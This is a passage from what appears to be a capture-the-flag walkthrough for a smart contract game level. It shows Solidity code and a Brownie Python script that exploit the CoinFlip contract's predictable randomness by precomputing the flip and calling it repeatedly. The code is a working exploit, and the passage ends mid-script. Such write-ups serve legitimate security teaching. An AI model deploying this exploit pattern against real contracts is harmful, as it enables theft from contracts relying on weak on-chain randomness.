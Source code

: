 ```solidity {lineos=table,hl_lines=[24,25,26,27,28,29,30,31,32,33,34,35,36,37],lineofstart=1}
        // Pass the expected value to the original contract's flip method
        bool result = coinflipContract.flip(side);

        // Continue only if we have provided the right value. We know this must be
        // true if the value passed is right, otherwise it will be false
        require(result);
    }

    // Destructor
    function destroy() public {
        selfdestruct(msg.sender);
    }
     
}
```

The idea behind this malicious contract is to obtain the pseudo-random value before the original contract is called, and provide the expected value as parameter to the original `flip` method, then eval if our guess has been correct.

Our project will also have two different interfaces, one for the original contract (`coinflipInterface.sol`) and an additional one for our malicious contract (`coinflipAttackInterface.sol`).

```solidity {lineos=table,hl_lines=[3],lineofstart=1}
pragma solidity ^0.6.0;

interface CoinFlipAttackInterface {
    function attack() external;
    function destroy() external;
}
```

```solidity {lineos=table,hl_lines=[3],lineofstart=1}
pragma solidity ^0.6.0;

interface CoinFlipInterface {
    function flip(bool _guess) external returns (bool);
}
```

These interfaces define which methods can be called from another contract, and we will use this in our `attack.py` script, which looks as follows:

```solidity {lineos=table,hl_lines=[17,18,19,20,21],lineofstart=1}
from brownie import accounts, config, interface, web3, CoinFlip, CoinFlipAttack

def attack(target, hacker):
    ''' 
    We will deploy our attack contract passing the constructor arguments,
    and a dictionary of transaction parameters as the final argument, including
    a from value that specifies the Account to deploy the contract from
    ''' 
    deploy_attack = CoinFlipAttack.deploy(target, {"from": hacker})

    '''
    Create object from an arbitrary address using the Accounts.at method
    '''
    coinflip = CoinFlip.at(target)
    print(f'Address originating the attack:  {deploy_attack.address}')

    # Execute 10 times the hack attack
    for i in range (0, 10):
        deploy_attack.attack({'from': hacker, 'gas_limit':250000, 'allow_revert': True})
    print(f'Number:  {coinflip.consecutiveWins()}')
    deploy_attack.destroy({'from': hacker})
    
def main(target):
```